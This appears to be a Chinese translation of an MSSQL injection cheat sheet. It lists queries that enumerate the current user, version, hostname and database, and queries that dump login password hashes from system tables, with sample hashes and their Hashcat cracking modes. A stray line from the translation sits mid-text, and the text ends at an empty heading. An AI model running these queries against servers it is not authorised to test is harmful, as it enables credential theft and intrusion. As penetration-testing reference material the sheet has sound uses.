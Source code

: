 ## MSSQL 用户

```sql
SELECT CURRENT_USER
SELECT user_name();
SELECT system_user;
SELECT user;
```

## MSSQL 版本

```sql
SELECT @@version
```

## MSSQL 主机名

```sql
SELECT HOST_NAME()
SELECT @@hostname
SELECT @@SERVERNAME
SELECT SERVERPROPERTY('productversion')
SELECT SERVERPROPERTY('productlevel')
SELECT SERVERPROPERTY('edition');
```

## MSSQL 数据库名称

```sql
SELECT DB_NAME()
```

## MSSQL 数据库凭据

* **MSSQL 2000**: Hashcat 模式 131: `0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578`

```sql
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
-- Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer
```

* **MSSQL 2005**: Hashcat 模式132: `0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe`

    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```

根据您提供的文档，以下是翻译后的内容：

## MSSQL 列出数据库
